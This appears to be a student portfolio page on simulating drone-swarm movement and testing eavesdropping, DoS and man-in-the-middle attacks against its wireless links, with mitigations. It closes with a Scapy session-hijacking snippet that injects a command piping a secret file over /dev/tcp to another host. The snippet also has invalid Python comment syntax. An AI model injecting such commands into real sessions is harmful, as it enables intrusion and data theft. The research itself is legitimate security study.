 ```yaml
---
layout: project
type: project
image: file:///C:/Users/drkco/Downloads/Screenshot%202024-09-04%20001147.png
title: "Unmanned Swarms"
date: 2024
published: true
labels:
  - Robotics
  - Simulation
  - C++
  - Python
  - Wireless Attacks
summary: "My team simulated and researched how drone swarm communications could be intercepted wirelessly."
---
```



My team and I developed a simulation of drone swarm movements using C++. We then conducted tests to explore methods for intercepting the communication between the drones, aiming to assess vulnerabilities in the system and potential defense strategies.

For the simulation, we needed to replicate the movement patterns of unmanned drones. Specifically, we implemented autonomous wall-following, a feature that enables a drone to navigate along a vertical surface, such as a wall, while maintaining a consistent distance. We achieved this by developing an algorithm that allows the drone to detect the proximity of the wall, adjust its trajectory, and follow the contour of the surface. In practical terms, this functionality is especially useful in environments like indoor spaces, tunnels, or urban areas where structures and boundaries are integral to navigation.

Our code incorporated the Gauss Markov mobility model, which adjusts to varying levels of randomness. In this model, speed and direction are derived from a Gaussian-distributed random variable. This approach is effective for simulating the movement of vehicles or drones that exhibit inertia, where future trajectories are influenced by their current state. The model operates within predefined physical boundaries, defined as a 2D box with specific X and Y limits. The mobility model updates the position of each drone at regular time intervals. A smoothing factor balances the randomness and the influence of the previous state in new state calculations. 

We experimented with different types of attacks on the drone swarm communication system with Python scripts. Passive attacks involved eavesdropping on wireless communications without altering data or affecting system operations, allowing us to quietly gather information. We also tested Denial of Service (DoS) attacks by flooding the network or specific devices with excessive traffic to disrupt or disable communication. Lastly, we explored Man-in-the-Middle (MitM) attacks, where communication between two parties was intercepted and potentially altered without their knowledge. 

These experiments helped us assess the vulnerabilities of unmanned drone swarm communication systems. To mitigate these attacks, we implemented several solutions, including strong encryption protocols to secure data transmitted over the wireless network, ensuring confidentiality and integrity. Additionally, we employed Frequency Hopping Spread Spectrum (FHSS), a technique that randomly switches communication frequencies, making it significantly more difficult for attackers to jam or intercept signals, thereby enhancing the resilience of the system.

Here is some code that illustrates how we hijacked the wireless communication:

```py
print("SENDING SESSION HIJACKING PACKET.........")
 IPLayer= IP(src="10.0.2.5", dst="10.0.2.6")                   //set IPS
 TCPLayer= TCP(sport=' ' , dport=23, flags="A",                //set Ports and Flag
 seq=' ', ack=' ')                                             //set sequence and acknowlege
 Data = "\r cat /home/seed/secret > /dev/tcp/10.9.0.1/9090\r"  //set malicious packet
 pkt = IPLayer/TCPLayer/Data                                   //set packet type
 ls(pkt)
 send(pkt,verbose=0) 
```
